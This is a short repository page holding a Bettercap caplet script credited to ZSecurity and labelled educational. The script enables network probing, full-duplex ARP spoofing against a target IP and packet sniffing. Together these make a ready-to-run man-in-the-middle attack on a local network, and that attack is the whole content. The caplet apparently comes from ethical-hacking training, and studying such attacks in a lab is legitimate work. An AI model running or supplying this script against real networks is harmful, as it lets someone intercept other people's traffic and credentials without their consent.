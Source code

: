 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on

set arp.spoof.fullduplex true 
set arp.spoof.targets 10.0.2.7 (target IP here) 
arp.spoof on 
net.sniff on`
